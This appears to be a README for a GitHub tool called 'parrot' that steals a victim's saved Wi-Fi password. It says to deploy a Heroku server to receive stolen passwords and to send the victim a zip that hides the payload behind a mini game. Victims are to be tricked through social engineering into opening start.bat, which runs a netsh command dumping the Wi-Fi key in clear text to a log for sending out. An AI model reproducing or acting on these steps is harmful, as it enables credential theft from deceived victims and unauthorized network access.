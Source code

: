 # parrot wiifi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/
heroku account https://signup.heroku.com/
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install

# usage
git clone https://github.com/ba5liel/parrot.git
cd parrot
heroku login
git push -u heroku
send the payload.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file
now you can see the password at [yourapp].heroku.com
# payload
this include a mini game that launches when start.bat is opened.
you must change the start.bat in the payload 

netsh wlan show profile "victim wifi name here" key=clear > bin\log.txt

#enjoy
